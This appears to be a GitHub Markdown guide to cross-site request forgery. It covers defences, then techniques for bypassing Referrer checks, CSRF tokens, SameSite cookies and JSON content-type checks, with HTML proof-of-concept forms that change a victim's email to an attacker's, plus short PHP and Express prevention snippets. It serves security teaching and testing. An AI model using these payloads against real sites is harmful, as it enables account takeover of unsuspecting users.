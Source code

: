 # CSRF (Cross-Site Request Forgery) Guide

---

## What is Cross-Site Request Forgery (CSRF/XSRF)?

- Imagine you're logged into a website (e.g., banking site). At the same time, you visit a malicious site.
- The malicious site can make requests to the banking site **on your behalf**, without your knowledge.
- **Example Attack:** Change your email, reset password, or transfer funds.
- If the victim is an admin, the attacker could takeover the entire system.

---

## Protections Against CSRF

1. **Referrer Header Check**
2. **CSRF Tokens**
3. **SameSite Cookies**
4. **JSON Format Validation**

---

## Bypassing CSRF Protections

### 1. Referrer Header Bypass

#### Case (1): Remove Referrer
- Some apps don't validate if referrer is missing.

#### Case (2): Subdomain Trick
- If referrer is loosely validated, let's say the target is `account.example.com`, then try setting the Referrer to `account.exampleevil.com`. If it works, buy the domain `exampleevil.com`, create a subdomain named account, and continue your attack.
```http
Referrer: https://evil.com         → Error.
Referrer: https://exampleevil.com  → Success. 
```
- Buy `exampleevil.com` and create `account.exampleevil.com`.

#### Case (3): Using `@` or `/` to Obfuscate
```http
Referrer: https://evil.com/file@https://example.com
```
- Alternate characters: `|`, `/`, `?`, `#`
  - Example:
  	- `Referrer: https://evil.com/file     # Error.`
    	- `Referrer: https://evil.com/file?//victim.com     # Success.`

#### HTML PoC with Referrer:
```html
<html>	
<head><meta name="referrer" content="unsafe-url"></head>   <!-- Means that you can send the referrer via HTTP or HTTPS -->
<body>
	<form name="hacker" method="POST" action="https://account.example.com/change_email">
		<input type="hidden" name="email" value="attacker@example.com">   <!-- The inputs are depending on the target variables  -->
	</form>
<!-- Referrer function “pushState”, If we're gonna type # instead of / We just will add # after / like that: /#file -->
	<!-- This function “pushState” takes whatever comes after evil.com -->
	<script>
			history.pushState('','','/file@account.example.com')
			document.form[0].submit();
	</script>
</body>
</html>
```

#### Case (4): Fake Parameter in Referrer
```html
<script>
  history.pushState('', '', '/?param=https://example.com');
  document.forms[0].submit();
</script>
```

#### • Case (5): Remove Referrer with `no-referrer`
```html
<meta name="referrer" content="no-referrer">
```

---

### 2. CSRF Token Bypass Techniques

- Remove the `csrf_token` parameter.
- Use random invalid token (`length ±1`).
- Slightly modify the token (spoof).
- Use token from attacker session.
- Change request method from POST → GET.
- Remove custom header (if token sent via header).
- Guess token (weak randomness).
- Set value to `"null"` or use null bytes.
- Steal token via XSS.
- Intercept and replay token from HTTP traffic.
- Exploit static part of tokens (`abc123XYZ`, `abc456XYZ`).
- Use type juggling (e.g., `0e123456` = `0` in PHP).

---

### 3. SameSite Cookies Bypass

#### • Types:

- **Strict**: Blocked unless same site origin.
- **Lax**: Allows top-level GET requests.
- **None**: Allows all but requires `Secure` (HTTPS).

#### • Detect via response headers:
```
Set-Cookie: session=abc; SameSite=Strict; Secure
```

#### • Strict Bypass:
- Look for open redirect or path traversal in JS.
```js
window.location = blogPath + '/' + postId;
```
Payload:
```html
<form method="POST" action="https://example.com?postId=../../../../change_email">
  <input type="hidden" name='{"test":"x' value='y", "new_email":"attacker@gmail.com"}'/>
</form>
```

#### • Lax Bypass:
- Must use GET.
- Requires user to click.
```html
<script>
  location = "https://example.com/change_email?email=attacker@example.com&_method=POST";
</script>
```

---

### 4. JSON Format Bypass

#### • Case (1): Change Content-Type
- From: `application/json`
- To: `application/x-www-form-urlencoded` or `text/plain`

```html
<form method="POST" action="https://example.com/phone.json" enctype="application/x-www-form-urlencoded">
  <input type="hidden" name='{"test":"x' value='y", "new_email":"attacker@gmail.com"}'/>
</form>
```

#### • Case (2): Only change `Content-Type`, keep JSON format
```html
<form method="POST" action="https://example.com/phone.json" enctype="text/plain">
  <input type="hidden" name='{"test":"x' value='y", "new_email":"attacker@gmail.com"}'/>
</form>
```

#### • Case (3): Change Method from PUT/PATCH → POST
- Replace JSON with URL-encoded or text body.

```http
PATCH → POST
Content-Type: application/json → text/plain
```

---

## ▪ Preventing CSRF

### • PHP:
```php
if ($_POST['csrf_token'] !== $_SESSION['csrf_token']) {
    die("Invalid CSRF Token");
}
```

### • Express.js:
```js
app.use(session({
  secret: "your_secret",
  resave: false,
  saveUninitialized: true,
  cookie: { sameSite: "Strict", secure: true }
}));
```
